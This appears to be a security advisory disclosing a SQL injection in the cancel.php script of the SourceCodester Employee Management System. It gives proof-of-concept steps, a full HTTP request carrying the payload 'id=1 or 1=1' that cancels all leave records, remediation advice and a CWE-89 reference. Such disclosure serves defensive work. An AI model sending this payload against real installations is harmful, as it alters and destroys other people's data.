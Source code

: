 ## SourceCodester Employee Management System cancel.php SQL Injection

### Vendor Homepage:
[SourceCodester Employee Management System](https://www.sourcecodester.com/php/14432/employee-management-system-using-php.html)

### Impact:
The SQL injection vulnerability in the `cancel.php` script of the SourceCodester Employee Management System allows attackers to manipulate SQL queries through the `id` parameter. By injecting a specially-crafted payload such as `"1 or 1=1"`, attackers can cancel all leave applications, regardless of their legitimacy. This could lead to chaos within the system and disrupt normal operations, potentially causing significant inconvenience and confusion among employees and administrators.

### Proof of Concept:

1. Make a GET request to `cancel.php`.
2. Use the parameter `id` with the payload `"1 or 1=1"`.
3. All records are updated.

### Request Example:

```http
GET /cancel.php?id=1%20or%201=1&token=1 HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

## Remediation:
To mitigate the SQL injection vulnerability in cancel.php, input validation and parameterized queries should be implemented to sanitize user input effectively. Additionally, access controls should be enforced to ensure that users can only modify their own leave applications. Regular security assessments and code reviews should be conducted to identify and address any vulnerabilities in the application's codebase, ensuring robust protection against SQL injection and other security threats.

## CWE:
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)